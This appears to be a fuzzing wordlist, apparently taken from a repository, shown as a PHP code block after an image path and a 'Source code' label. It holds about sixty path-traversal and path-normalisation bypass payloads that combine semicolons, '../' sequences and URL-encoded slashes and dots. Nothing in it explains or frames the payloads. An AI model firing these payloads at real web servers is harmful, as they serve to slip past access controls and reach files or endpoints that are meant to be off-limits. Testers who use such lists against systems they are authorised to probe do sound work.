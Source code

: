 ```php
;%2f..%2f..%2f%2f
;%2f..%2f/
;%2f..%2f/..%2f
;%2f..%2f/../
;%2f../%2f..%2f
;%2f../%2f../
;%2f..//..%2f
;%2f..//../
;%2f..///
;%2f..///;
;%2f..//;/
;%2f..//;/;
;%2f../;//
;%2f../;/;/
;%2f../;/;/;
;%2f..;///
;%2f..;//;/
;%2f..;/;//
;%2f/%2f../
;%2f//..%2f
;%2f//../
;%2f//..;/
;%2f/;/../
;%2f/;/..;/
;%2f;//../
;%2f;/;/..;/
;/%2e%2e
;/%2e%2e%2f%2f
;/%2e%2e%2f/
;/%2e%2e/
;/%2e.
;/%2f%2f../
;/%2f/..%2f
;/%2f/../
;/.%2e
;/.%2e/%2e%2e/%2f
;/..
;/..%2f
;/..%2f%2f../
;/..%2f..%2f
;/..%2f/
;/..%2f//
;/../
;/../%2f/
;/../../
;/../..//
;/.././../
;/../.;/../
;/..//
;/..//%2e%2e/
;/..//%2f
;/..//../
;/..///
;/../;/
;/../;/../
;/..;
;/.;.
;//%2f../
;//..
;//../../
;///..
;///../
;///..//
```